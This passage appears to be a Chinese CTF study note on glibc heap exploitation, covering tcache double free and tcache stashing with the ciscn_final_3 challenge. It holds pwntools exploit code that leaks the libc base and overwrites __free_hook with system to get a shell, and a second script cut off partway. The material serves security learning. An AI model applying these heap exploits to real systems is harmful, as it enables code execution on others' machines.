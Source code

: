 ```python
new(8, 0x70, 'aaa') # from 0 - 8 -> sz= 0x450
new(9, 0x70, 'aaa') 
new(10, 0x70, 'aaa')

delete(10)
delete(10)
new(11, 0x70, p64(addr0 - 16))
new(12, 0x70, p64(addr0 - 16))
new(13, 0x70, p64(0) + p64(0x451)) # size must be equal to the front 
delete(0)
delete(1)
new(14, 0x70, 'aaa') # cut unsorted bin chunk
new(15, 0x40, 'aaa')
main_arena = new(16, 0x40, 'aaa') - 96
libc_base = main_arena-0x10-libc.sym['__malloc_hook']
system_addr = libc_base+libc.sym['system']
free_hook = libc_base+libc.sym['__free_hook']
new(17, 0x10, 'aaa')
delete(17)
delete(17)
new(18, 0x10, p64(free_hook))
new(19, 0x10, p64(free_hook))
new(20, 0x10, p64(system_addr))
delete(4)
p.interactive()
```

还有个地方没想明白，为什么题目里这个0x40，改成0x50也对（同时也修改0x461），改成0x70（同时也修改0x481）就不对了。。。想不明白了 😭

## tcache stash 

比如当一个线程申请0x50大小的chunk时，如果tcache没有，那么就会进入分配区进行处理，如果对应bin中存在0x50的chunk，除了取出并返回之外，ptmalloc会认为这个线程在将来还需要相同的大小的chunk，因此就会把对应bin中0x50的chunk尽可能的放入tcache的对应链表中去。

### ciscn_final_3

还是上一节这道题，不用tcache 连续double free无检查的漏洞。

抄的大佬的博客：<https://arttnba3.cn/2021/05/10/PWN-0X01-GLIBC_HEAP-EXPLOIT/#%E4%BE%8B%E9%A2%982%EF%BC%88fastbin-double-free%EF%BC%89%EF%BC%9Aciscn-2019-final-3>

但是最后面pwndbg显示不出来堆，exp没看懂（

以后再说

```python
from pwn import *
context.arch = 'amd64'
#context.log_level = 'debug'
#p = remote('node4.buuoj.cn', 28849) 
p = process('./ciscn_final_3')
#libc = ELF('./libc.so.6') 
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')#

context.terminal = ["tmux", "splitw", "-h"]

def cmd(choice:int):
    p.recvuntil(b"choice > ")
    p.sendline(str(choice).encode())


def new(index:int,size:int , content):
    cmd(1)
    p.recvuntil(b"input the index")
    p.sendline(str(index).encode())
```